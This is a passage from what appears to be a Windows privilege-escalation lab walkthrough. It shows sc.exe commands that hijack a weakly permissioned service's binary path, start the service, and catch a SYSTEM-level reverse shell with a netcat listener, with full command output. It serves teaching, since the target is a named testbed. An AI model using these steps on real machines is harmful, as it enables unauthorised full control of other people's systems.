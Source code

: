 Then we modify the binpath of the service:

````
PS C:\Users\user\Downloads> sc.exe config daclsvc binpath= "C:\Users\user\Downloads\daclservicehijack.exe"
[SC] ChangeServiceConfig SUCCESS
````


Then we query to make sure our changes were successful:

````
PS C:\Users\user\Downloads> sc.exe qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\user\Downloads\daclservicehijack.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
PS C:\Users\user\Downloads> 
````

Then we start the service:

````
PS C:\Users\user\Downloads> net start daclsvc
The DACL Service service is starting.
````


Then we immediately get a shell as NT\Authority system:

````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.98.
Ncat: Connection from 10.22.6.98:52636.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````
